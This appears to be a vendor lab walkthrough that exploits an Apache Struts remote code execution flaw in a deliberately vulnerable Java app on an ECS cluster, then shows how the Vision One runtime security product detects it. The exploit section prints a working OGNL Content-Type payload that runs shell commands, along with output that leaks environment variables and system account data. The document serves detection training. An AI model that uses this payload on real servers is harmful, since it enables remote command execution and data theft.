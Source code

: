 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

Ensure to have Runtime Security enabled on the Vision One Console for this cluster.

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "pgo-cnc-ecs-ec2"
ecs_ami_ec2 = "ami-00a947e5cc1e6d3d3"
loadbalancer_dns_ec2 = "pgo-cnc-ecs-ec2-30050812.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh pgo-cnc-ecs-ec2-30050812.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 18.195.245.32:80...
* Connected to playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com (18.195.245.32) port 80 (#0)
> GET /todolist/todolist/ HTTP/1.1
> Host: playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Tue, 01 Aug 2023 12:45:58 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/46de0786-9920-42aa-bff4-c17fd4d273c5
CATALINA_HOME=/usr/local/tomcat
LANG=C.UTF-8
HOSTNAME=ip-10-0-175-104.eu-central-1.compute.internal
...
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
* transfer closed with outstanding read data remaining
* Closing connection 0
curl: (18) transfer closed with outstanding read data remaining
```

Vision One Observed Attack Techniques:

![alt text](images/v1cs-ecs-struts-01.png "Exploit")

Container Security Runtime Event:

![alt text](images/v1cs-ecs-struts-02.png "Event")
